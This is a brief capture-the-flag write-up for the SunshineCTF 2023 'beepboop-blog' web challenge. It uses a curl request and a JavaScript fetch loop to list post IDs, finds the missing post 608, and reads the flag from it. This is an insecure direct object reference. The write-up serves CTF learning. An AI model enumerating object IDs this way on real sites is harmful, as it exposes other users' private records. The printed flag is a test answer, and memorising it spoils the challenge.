 # beepboop-blog

https://beepboop.web.2023.sunshinectf.games/post/1/

IDOR?

```sh
curl 'http://beepboop.web.2023.sunshinectf.games/posts/'
```

```js

/*
{
  "post": "Commonwealth was miracle\". although the two autonomous regions of. Atlanta journal-constitution speculation that some consider an employer's right and what would. Ransom. king columbus discovered the internal energy of a new canadian identity, marked by. Specialists generally the executive..",
  "post_url": "https://127.0.0.1:3000/post/90",
  "user": "Robot #911"
}
*/

// 1023 posts... missing 1?

fetch("/posts").then(data => {
    return data.json()
}).then(json => {
    console.log(json);
    const posts = json.posts;

    const postIds = [];

    for (let i = 0; i < posts.length; i++) {
        // if (posts[i].post.includes('sun{')) {
        //     console.log(posts[i]);
        // }
        const postUrl = posts[i]["post_url"].split("/");
        const postId = postUrl[postUrl.length - 1];
        postIds.push(postId);
    }

    console.log(postIds);
});

// looked through indices - 608?
```

https://beepboop.web.2023.sunshinectf.games/post/608/

`sun{wh00ps_4ll_IDOR}`
